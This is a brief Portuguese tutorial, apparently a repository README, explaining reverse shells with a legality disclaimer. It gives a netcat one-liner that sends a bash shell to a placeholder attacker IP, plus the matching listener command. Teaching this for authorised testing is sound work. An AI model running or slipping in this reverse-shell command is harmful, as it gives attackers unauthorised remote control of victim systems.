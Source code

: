 
---

Uma **reverse shell** é uma técnica comumente utilizada para obter acesso remoto a um sistema alvo. No entanto, o uso dessa técnica deve ser feito exclusivamente em ambientes autorizados, como para **testes de segurança (pentest)**, **auditorias** ou **treinamento em cibersegurança**. Qualquer uso indevido ou não autorizado pode ser **ilegal**.

### Funcionamento básico

Na reverse shell:

1. A máquina alvo (vítima) inicia a conexão de volta para a máquina atacante (ouvinte).

```bash 
nc -vn {ip_do_atacante} {porta} -e /bin/bash
```

2. O atacante escuta na porta configurada, aguardando a conexão da vítima.

```bash
nc -vnlp {porta}
```

Isso é útil em ambientes onde a máquina alvo está atrás de um firewall ou NAT, dificultando o acesso direto.
